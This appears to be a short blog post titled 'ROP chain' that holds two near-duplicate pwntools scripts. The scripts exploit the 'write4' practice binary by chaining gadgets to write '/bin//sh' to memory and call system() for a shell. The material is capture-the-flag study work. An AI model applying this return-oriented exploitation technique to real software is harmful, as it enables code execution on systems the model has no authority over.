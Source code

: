```yaml
---
layout: post
published: true
title: ROP chain
---
```


{% highlight python linenos %}
#Completed
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM)
#payload += p64(pop_r14_r15) + p64(data_addr+8) + '.txt\x00\x00\x00\x00' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 
p.sendline(payload)
#print p.recvall()
p.interactive()
{% endhighlight %}
